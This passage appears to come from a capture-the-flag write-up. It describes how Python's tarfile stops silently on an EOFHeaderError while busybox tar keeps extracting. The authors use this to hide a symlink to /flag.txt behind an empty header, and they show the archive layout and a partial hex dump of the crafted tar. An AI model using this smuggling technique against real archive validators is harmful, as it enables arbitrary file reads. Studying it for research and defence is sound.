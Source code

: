 ## Discovery

After reading a bunch of resources of how a `.tar` file is structured (see for [example](https://www.gnu.org/software/tar/manual/html_node/Standard.html), and getting the base ready, we started scouting the [tarfile](https://docs.python.org/3/library/tarfile.html) source code [Lib/tarfile.py](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py), and we were noticing some weird behavior: when an error happens (for example checksum fail) happens for one the files, [tarfile](https://docs.python.org/3/library/tarfile.html) silently stops on that file and return only the preceding files, and there was in fact an open [issue](https://github.com/python/cpython/issues/120740) for this!, and for this unpreferred behavior the  `ignore_zeros` needed to be set to zero, which was not clearly declared afaik, here is code snippet responsible for this from the source code:

![image](https://github.com/user-attachments/assets/0d393ced-3ab4-43bf-9e0e-a3c054c1e12d)


But this error was not tolerated by the `busybox tar` binary, which made us think if there is door for conflict in handling another type of errors, one that would be silenced by `tarfile` library, and that would be ignored by `busybox tar` binary and process the remaining files, and we didn't actually need to look that much further, as that the win error was just above the `checksum` error handling:

![image](https://github.com/user-attachments/assets/2b75ace1-177f-449b-a510-68c94e10c273)

Yes! the `EOFHeaderError` was the key, we found that the `tarfile` library have the same silenced stop, and that the `busybox tar` didn't consider and continued extracting the other following files.

So the solve was to create an archive file that has this format:

```
+-------------------------------+
| Innocent file (e.g hello.txt) |
|  with its header and content  |
|                               |
| The confuse file with a 512   |
|  bytes empty header and no    |
|            body               |
|                               | 
| The pwn file (symlink to      | 
|          /flag.txt)           |
+-------------------------------+
```

here is the tar file in hex:

```
Hex View  00 01 02 03 04 05 06 07  08 09 0A 0B 0C 0D 0E 0F
 
00000000  68 65 6C 6C 6F 00 00 00  00 00 00 00 00 00 00 00  hello...........
00000010  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000060  00 00 00 00 30 30 30 30  36 34 34 00 30 30 30 31  ....0000644.0001
00000070  37 35 30 00 30 30 30 31  37 35 30 00 30 30 30 30  750.0001750.0000
00000080  30 30 30 30 30 30 36 00  31 34 36 34 34 37 35 31  0000006.14644751
00000090  31 32 37 00 30 31 30 36  36 33 00 20 30 00 00 00  127.010663. 0...
000000A0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000B0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000C0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000D0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000E0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000F0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000100  00 75 73 74 61 72 20 20  00 6E 79 6C 79 00 00 00  .ustar  .nyly...
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000120  00 00 00 00 00 00 00 00  00 6E 79 6C 79 00 00 00  .........nyly...
```
